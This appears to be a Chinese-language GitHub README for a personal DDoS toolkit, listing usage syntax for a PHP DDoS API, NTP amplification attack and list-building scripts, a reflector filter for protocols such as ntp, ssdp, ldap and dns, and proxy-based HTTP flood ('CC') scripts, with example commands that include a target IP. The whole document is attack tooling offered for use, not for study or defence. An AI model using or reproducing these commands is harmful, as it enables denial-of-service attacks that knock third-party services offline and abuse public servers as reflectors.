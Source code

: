 # 自用cc脚本
DDoS API - PHP
支持 秘钥 / 自定义方法
需要安装 PHP-SSH2 扩展
http://127.0.0.1/api.php?key=秘钥&host=IP地址&port=端口&time=时间&method=方法

DDoS Concurrent API - PHP PLUS
支持 秘钥 / 自定义方法 / 并发 / 自定义命令
需要安装 PHP-SSH2 扩展
http://127.0.0.1/api.php?key=秘钥&host=IP地址&port=端口&time=时间&method=方法&max=并发

NTP注入器
已去除 "请勿泄露" 字符
./ntpfill ntp.txt 4000
./ntpfill 列表文件 注入次数

NTP攻击脚本 (汉化)
./ntp <目标IP> <端口> <列表文件> <线程> <pps限制器|默认-1> <时间(秒)>
示例：./ntp 117.27.239.1 80 cnntp.txt 100 -1 60

EasyFilter(简易过滤) 1.0
完全汉化，已删除后门
格式
./filter <输入> <输出> <协议> <最小字节> <输出格式>
示例
./filter ntpscan.txt ntp.txt ntp 400 [ip]
./filter ssdpscan.txt ssdp.txt ssdp 200 [ip][space][bytes]
支持协议
chargen, ntp, quake, ssdp, ldap, dns, snmp, mdns, tftp, portmap, netbios
输出格式变量
[space], [ip], [bytes]

『CC+』
基于 cc.js 的美化版CC脚本
SH
./cc+.sh 线程 列表文件 方法 时间(秒) 目标(URL)
格式
node cc+.js 列表文件 方法 时间(秒) 目标(URL)
示例
node cc+.js proxy.txt GET 60 http://example.com

『CC+PLUS+』
格式
./cc+.sh 线程 列表文件 方法 速率 时间(秒) 目标(URL) 随机参数[开:t/关:f]
示例
./cc+.sh 100 proxy.txt GET 10 60 http://example.com t

『CheckChinaProxyIP』1.4
验证中国代理IP Golang 脚本
示例
./ccpip proxy.txt cn.txt 1000 5
格式
./ccpip 输入 输出 协程(线程) 超时(秒)
运行脚本前，请先执行命令
ulimit -n 999999

『ProxyFiltering』3.3
公益版 HTTP/HTTPS 代理过滤脚本
协议
http https
示例
./pf http 15 1000 origin.txt proxy.txt
格式
./pf 检测协议 超时(秒) 线程 输入 输出 [可选:检测地址(返回请求IP)]
执行脚本前，请输入此命令解除系统限制
ulimit -n 999999
更新日志
- pfbot的改版
- 增加验证节点 (验证更准确)
